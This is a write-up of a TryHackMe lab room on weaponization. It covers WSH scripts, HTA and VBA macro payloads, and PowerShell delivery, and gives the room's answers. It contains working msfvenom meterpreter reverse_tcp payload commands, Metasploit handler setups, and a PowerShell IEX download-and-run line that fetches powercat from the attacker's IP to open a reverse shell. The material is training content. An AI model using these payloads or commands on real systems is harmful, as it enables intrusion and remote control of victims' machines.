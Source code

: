 ![Weaponization Banner](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/weaponization/Weaponization_Banner.png)

<p align="center">
   <img src="https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/weaponization/Weaponization_Cover.png" alt="Weaponization Logo">
</p>

# Weaponization

This guide contains the answer and steps necessary to get to them for the [Weaponization](https://tryhackme.com/room/weaponization) room.

## Table of contents

- [Windows Scripting Host - WSH](#windows-scripting-host---wsh)
- [An HTML Application - HTA](#an-html-application---hta)
- [Visual Basic for Application - VBA](#visual-basic-for-application---vba)
- [PowerShell - PSH](#powershell---psh)
- [Delivery Techniques](#delivery-techniques)
- [Practice Arena ](#practice-arena)

### Windows Scripting Host - WSH

1. Try to replace the calc.exe binary to execute cmd.exe within the Windows machine.

   I tried the message box using cscript which seemed to work.
   
   ![Hello](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/weaponization/Weaponization_WSH_Hello.png)

   When trying the open cmd.exe with the vbs file, I ran into an issue where it just wouldn't open a command prompt. So I had to modify the code slightly for it to work.
   
   ```cmd
   Set shell = WScript.CreateObject("Wscript.Shell")
   shell.Run("C:\Windows\System32\calc.exe " & WScript.ScriptFullName),0,True
   ```
   
   ![CMB VBS](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/weaponization/Weaponization_WSH_CMD_VBS.png)
   
   It also worked when saving the vbs file as a text file and using the `/e` argument.
   
   ```cmd
   cscript /e:VBScript c:\Users\thm\Desktop\payload.txt
   ```
   
   ![CMD TXT](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/weaponization/Weaponization_WSH_CMD_TXT.png)

   ><details><summary>Click for answer</summary>No Answer Needed</details>

### An HTML Application - HTA

1. Now, apply what we discussed to receive a reverse connection using the user simulation machine in the Practice Arena task.

   This task can also be done with the regulat Windows 10 machine. Saves me from terminating and started a new machine. First we open MetaSploit and the required module.
   
   ```cmd
   use exploit/windows/misc/hta_server
   ```
   
   Then we set all required options.
   
   ```cmd
   set LHOST 10.18.78.136
   set LPORT 1337
   set payload windows/meterpreter/reverse_tcp
   exploit
   ```
   
   ![Metasploit Module Run](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/weaponization/Weaponization_HTA_Metasploit_Module_Run.png)
   
   As seen in the image above, we managed to get a reverse connection back.

   ><details><summary>Click for answer</summary>No Answer Needed</details>

### Visual Basic for Application - VBA

1. Now replicate and apply what we discussed to get a reverse shell!

   First I had to create a vba payload using msfvenom.
   
   ```cmd
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.18.78.136 LPORT=1337 -f vba 
   ```
   
   Now I could copy this macro into a Word document on the target machine.
   
   ![Macro](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/weaponization/Weaponization_VBA_Macro.png)
   
   Save it as a word 97 document so the macros are enabled. Close Word.
   
   Instead of using `nc` I used Metasploit as a handler.
   
   ```cmd
   use exploit/multi/handler
   set payload windows/meterpreter/reverse_tcp
   set LHOST 10.18.78.136
   set LPORT 1337
   run
   ```
   
   Now we can open the newly created Word document with our payload inside.
   
   ![Metasploit Run](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/weaponization/Weaponization_VBA_Metasploit_Run.png)
   
   ><details><summary>Click for answer</summary>No Answer Needed</details>

### PowerShell - PSH

1. Apply what you learned in this task. In the next task, we will discuss Command and Control frameworks! 

   ![Git Clone](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/weaponization/Weaponization_PSH_Git_Clone.png)
   
   ![Powercat Reverse](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/weaponization/Weaponization_PSH_Powercat_Reverse.png)
   python3 -m http.server 8080 
   sudo nc -nlvp 1337

    powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://10.18.78.136:8080/powercat.ps1');powercat -c 10.18.78.136 -p 1337 -e cmd"


   ><details><summary>Click for answer</summary>No Answer Needed</details>

### Delivery Techniques

1. Which method is used to distribute payloads to a victim at social events?

   This is mentioned in the text. Usually a physical device would be used as this can be handed over.

   ><details><summary>Click for answer</summary>USB Delivery</details>

### Practice Arena 



1. What is the flag? Hint: Check the user desktop folder for the flag! 

   msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.18.78.136 LPORT=1337 -f hta-psh -o letmein.hta
python3 -m http.server 8080
use exploit/multi/handler
set LHOST 10.18.78.136
set LPORT 1337
set payload windows/meterpreter/reverse_tcp
   ![Payload Creation](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/weaponization/Weaponization_Practical_Payload_Creation.png)
   
   ![Metasploit Handler](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/weaponization/Weaponization_Practical_Metasploit_Handler.png)
   
   ![Web Application](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/weaponization/Weaponization_Practical_Web_Application.png)
   
   ![Migrate Check](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/weaponization/Weaponization_Practical_Migrate_Check.png)
   
   ![Flag](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/weaponization/Weaponization_Practical_Flag.png)

   ><details><summary>Click for answer</summary></details>
